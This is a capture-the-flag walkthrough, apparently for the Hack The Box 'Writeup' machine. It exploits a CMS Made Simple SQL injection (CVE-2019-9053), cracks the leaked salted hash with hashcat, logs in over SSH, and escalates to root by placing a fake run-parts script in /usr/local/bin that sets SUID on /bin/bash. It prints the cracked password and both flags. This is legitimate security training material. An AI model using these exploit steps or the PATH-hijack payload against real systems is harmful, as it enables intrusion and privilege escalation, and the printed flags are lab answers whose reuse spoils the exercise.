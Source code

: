 # Writeup

*Linux* - Writeup is an easy difficulty Linux box with DoS protection in place to prevent brute forcing. A CMS susceptible to a SQL injection vulnerability is found, which is leveraged to gain user credentials. The user is found to be in a non-default group, which has write access to part of the PATH. A path hijacking results in escalation of privileges to root.

------------

## Task 1 

**Submit User Flag**

Let's first run the `nmap` scan.

```sh
nmap -sV -sC 10.10.10.138

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-27 01:55 CET
Nmap scan report for 10.10.10.138
Host is up (0.025s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.00 seconds
```

This tells us that there exist a `robots.txt` file with a disallowed entry of `/writeup`, and let's visit that.

There I see some writeups from HTB.

Now let's get the headers to see if we can find something valuable there.

```sh
curl -I http://10.10.10.138/writeup/
HTTP/1.1 200 OK
Date: Thu, 27 Mar 2025 00:58:13 GMT
Server: Apache/2.4.25 (Debian)
Set-Cookie: CMSSESSID9d372ef93962=91h1pvi715rrgin4vgs87qkim7; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=utf-8
```

We see a cookie with `CMSSESSID` which makes us believe that there exist a CMS.

After viewing the page source, we see also which CMS is that.

```html
<!doctype html>
<html lang="en_US"><head>
	<title>Home - writeup</title>
	
<base href="http://10.10.10.138/writeup/" />
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
```

So the CMS is `CMS Made Simple`, and since the copyright tag tells us that it is 2014-2019, it makes me believe that this is from the year 2019. Let's search for any vulnerabilities for this CMS on this year.

Google gives us `CVE-2019-9053`, which on `exploitdb` shows that this is a SQL Injection.

Let's download python exploit: `https://github.com/e-renna/CVE-2019-9053/blob/master/exploit.py`.

After executing it a lot of valuable information are found:

```sh
pythhon3 CVE_2019_9053.py -u http://10.10.10.138/writeup

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

Here we have the hashed password and the salt also.

Create a file with hash and the salt:

```sh
echo '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > hash
```

Try to hack with hashcat and the rockyou wordlist.

```sh
hashcat -m 20 hash --wordlist /home/hb/Documents/tools/rockyou.txt

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 20 (md5($salt.$pass))
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Thu Mar 27 02:25:12 2025 (1 sec)
Time.Estimated...: Thu Mar 27 02:25:13 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/hb/Documents/tools/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 13518.9 kH/s (1.91ms) @ Accel:512 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4718592/14344384 (32.90%)
Rejected.........: 0/4718592 (0.00%)
Restore.Point....: 4194304/14344384 (29.24%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: roganoan -> pequeñatraviesa
Hardware.Mon.#1..: Temp: 60c Util: 23% Core:1725MHz Mem:6000MHz Bus:8
```

And we have the password which is `raykayjay9`.

Let's use that to ssh, and find the user flag.

```sh
ssh jkr@10.10.10.138

jkr@writeup:~$ ls
user.txt
jkr@writeup:~$ cat user.txt 
790660ac9fa3ebe645bbedd8579a6e9f
jkr@writeup:~$ 
```

So the first flag is `790660ac9fa3ebe645bbedd8579a6e9f`.

## Task 2

**Submit Root Flag**

To do this we need to do privilege escalation.

During the enumeration we run the `id` command and check the groups here.

```sh
id

uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

All of them beside the `staff` are pretty usual, and checking the documentation about this group on `Debian` we see that it allows users to add local modifications to the system without needing root privileges `/usr/local`.

But, we know that the executables in `/usr/local/bin` are in the PATH variable of all users, and they may override the executables in `/bin` and `/usr/bin`.

Now let's replace a program that `root` is likely to run with a payload that allows us to escalate privileges.

For this we have to know what `root` user might be doing into the machine.

Let's use `pspy` tool which checks the processes without the need for root permissions.

Download the tool on our machine.
```sh
wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy32
```

Upload it to the target machine.
```sh
scp pspy32 jkr@10.10.10.138:/tmp
```

Run it on the target machine.
```sh
chmod +x pspy32
./pspy32
```

After logging in via `ssh` on another shell, we see some processes that might be interesting, for example we see that the `PATH` specified before running `run-parts` has the directories that we have access to, from the group `staff`.

```sh
2025/03/26 21:55:33 CMD: UID=0    PID=2600   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /ru
```

Now, let's create our payload as `run-parts` in `/usr/local/bin`, which now we are sure that will be executed as soon as we `ssh` into the machine..

```sh
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-
parts

chmod +x /usr/local/bin/run-parts
```

This payload turns the `bash` from a binary to an SUID binary - giving us `root`, as soon as we `ssh` into the machine.

Now `ssh` into the machine and use the modified binary, run also the `-p` flag which maintains the privileges.

```sh
bash-4.4# cat root.txt
4b09bcc59d9dcfb2e86d5cf8a0380153
bash-4.4# 
```

So there is the final flag: `4b09bcc59d9dcfb2e86d5cf8a0380153`.


